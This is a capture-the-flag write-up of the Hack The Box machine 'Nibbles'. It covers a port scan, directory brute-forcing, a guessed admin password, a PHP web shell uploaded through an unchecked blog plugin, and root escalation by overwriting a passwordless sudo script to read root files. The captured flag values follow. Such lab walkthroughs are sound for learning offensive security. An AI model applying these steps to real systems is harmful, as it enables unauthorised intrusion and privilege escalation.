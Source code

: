 ![banner](../../assets/images/htb/nibbles.png) 
# Nibbles: 10.10.10.75


## Scanning:

<br>

```bash
nmap 10.10.10.75

Starting Nmap 7.01 ( https://nmap.org ) at 2018-05-05 19:14 EDT
Nmap scan report for 10.10.10.75
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 21.39 seconds
```

<br>

## Gaining Access:

<br>

As always, let's start exploring the HTTP application running on port 80.

![](/assets/images/75_index.html.png)

![](/assets/images/75_index.source.png)

Well, nothing interesting there.. Let's use <a href='https://tools.kali.org/web-applications/dirb'>dirb</a> to bruteforce all common known directories as so `dirb 10.10.10.75/nibbleblog/`


__Note: I created a function for calling dirb:__


_~/.zshrc_
```bash
dirb(){
    echo 'HTTPS'
    echo
    /home/srbz/._bin/dirb/dirb https://$1 /home/srbz/._bin/dirb/wordlists/common.txt
    echo 'HTTP'
    echo
    /home/srbz/._bin/dirb/dirb http://$1 /home/srbz/._bin/dirb/wordlists/common.txt
}
```

Apparently, there's no other way to login than guessing. Hack the box usually use the challenge name as the password. 

`username: admin`

`password: nibbles`

![](/assets/images/75_blog.png)

<br>

## Maintaining Access:

<br>

Once logged in, we can upload files by using the plugin`my_image.` The vulnerability of that plugin is that it does not verrify the file extension. So, I uploaded my <a href='https://github.com/KevinCarroll7737/tools/blob/master/shell.php'>shell.php</a>

![](/docs/assets/images/75_upload.png)

By running <a href='https://github.com/KevinCarroll7737/tools/blob/master/linenum.sh'>linEnum.sh</a>, I've been able to see fast and clearly which files the user `nibbler` had the control of.

```bash
bash linenum.sh

(...)

utching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Ok so we can use `/home/nibbler/personal/stuff/monitor.sh` with sudo without giving password. Let's change what's in this script.

<br>

## Covering Tasks:

<br>

```bash
echo 'cat /root/root.txt > /tmp/srbz.txt; chown nibbler:nibbler /tmp/srbz.txt; chmod 777 /tmp/srbz.txt' >  /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
cat /tmp/srbz.txt
b6d745c0dfb6457c55591efc898ef88c
cat /home/nibbler/user.txt
b02ff32bb332deba49eeaed21152c8d8
```
